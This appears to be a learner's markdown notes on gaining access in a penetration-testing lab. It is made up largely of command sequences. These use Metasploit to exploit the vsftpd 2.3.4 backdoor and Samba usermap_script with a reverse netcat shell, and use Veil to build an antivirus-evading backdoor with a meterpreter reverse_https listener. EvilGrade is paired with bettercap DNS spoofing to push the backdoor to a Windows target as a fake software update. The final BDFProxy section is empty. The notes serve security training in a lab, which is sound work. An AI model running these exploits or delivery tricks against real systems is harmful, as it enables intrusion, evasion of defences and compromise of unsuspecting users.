 # Gaining Access

Two main approaches:

1. Server Side

2. Client Side

## Server Side

---

* To check if the Metasploitable machine and the Kali machine are on the same network, we can do a ping test:

```shell
ping 10.0.2.5
```

* zenmap can be used to gather more information about the server, as we have the IP now. Based on the vulnerable ports and services, we can discover more attacks on it.

* For each open port or service, we can Google them followed by the term 'exploit', and that will give us an idea about the vulnerabilities.

* Metasploit framework can be used to develop and launch exploits.

* Example of backdoor vulnerability:

```shell
msfconsole #launches Metasploit

use exploit/unix/ftp/vsftpd_234_backdoor #use particular exploit

show options

set RHOSTS 10.0.2.5

exploit #launch exploit
```

* Example of payload execution:

```shell
msfconsole

use exploit exploit/multi/samba/usermap_script

show options

set RHOSTS 10.0.2.5

show payloads #shows all possible payloads for particular exploit

#bind payloads open up a port on the target computer, and we can connect to it
#reverse payloads open up a port on our machine, and the target computer can connect to it
#reverse payloads can bypass firewalls

set PAYLOAD cmd/unix/reverse_netcat #sets payload

show options

set LHOST 10.0.2.4

exploit
```

## Client Side

---

* These attacks require user interaction and should be attempted if server-side attacks do not work.

* We can use Veil framework to generate backdoors which cannot be detected by anti-virus softwares.

```shell
veil

use 1 #uses evasion

list #shows list of payloads

use 15 #uses particular payload

set LHOST 10.0.2.7 #value as our IP

set LPORT 8080

set PROCESSORS 1 #making the payload unique by setting properties values

set SLEEP 5

generate #generate the backdoor
```

* Once backdoor is generated, we can check if it is detected by antivirus programs.

* To listen for incoming connections:

```shell
msfconsole

use exploit/multi/handler #module for listening incoming connections

show options

set PAYLOAD windows/meterpreter/reverse_https #set payload option

set LHOST 10.0.2.7 #set lhost as ip address

set LPORT 8080

exploit
```

* To check if backdoor works, we first need to move the backdoor file to the location '/var/www/html'.Then, after starting the Kali web server, we can use the Windows VM to visit the specific directory of the backdoor file.

* We can use EvilGrade to launch a fake upgrade in order to make the target download the backdoor:

```shell
cd /opt/evilgrade

./evilgrade

show modules

configure dap #this selects the module 'dap'

show options

set agent /var/www/html/evil-files/rev_https_8080.exe #path of backdoor file

set endsite www.speedbit.com

start

#Now we would want to be the MITM, so in a separate terminal we can use spoof.cap and DNS spoofing; note that metasploit is still listening for incoming connections in the background

bettercap -iface eth0 -caplet spoof.cap

set dns.spoof.all true

set dns.spoof.domains update.speedbit.com

dns.spoof on

#Now we can check the software(DAP) for updates on the Windows machine, and get access to it remotely
```

* Another method for downloading backdoors is using a software called BDFProxy:

```shell

```

---
